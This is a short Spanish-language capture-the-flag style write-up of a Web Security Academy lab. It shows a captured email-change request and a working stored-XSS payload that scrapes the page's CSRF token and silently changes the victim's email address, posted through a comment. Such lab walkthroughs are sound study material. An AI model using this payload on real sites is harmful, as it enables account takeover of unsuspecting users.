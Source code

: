 Antes de todo necesitamos entender como funciona el cambio de contraaeña, así que cambiaremos la contraseña de nuestra cuenta **wiener** para conocer los parametros y la ruta a donde se debe enviar.

```
POST /email/change-email HTTP/1.1
Host: ac411fe71f8b856f80352cd100b300fe.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: https://ac411fe71f8b856f80352cd100b300fe.web-security-academy.net
DNT: 1
Connection: close
Referer: https://ac411fe71f8b856f80352cd100b300fe.web-security-academy.net/email
Cookie: session=aFgfuzayL8jK1xA5jr3j6Z1fQvH6Kbsv
Upgrade-Insecure-Requests: 1

email=a%40a.a&csrf=6f8A1jOKIzioIeAGRZayu2KCRH2q0mTf
```

Entonces, realizaremos un payload XSS con los parametros del paquete anterior:

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/email',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/email/change-email', true);
    changeReq.send('csrf='+token+'&email=a@a.a')
};
</script>
```

Entonces lo enviamos por comentario y terminamos el laboratorio.

![](img10.png)
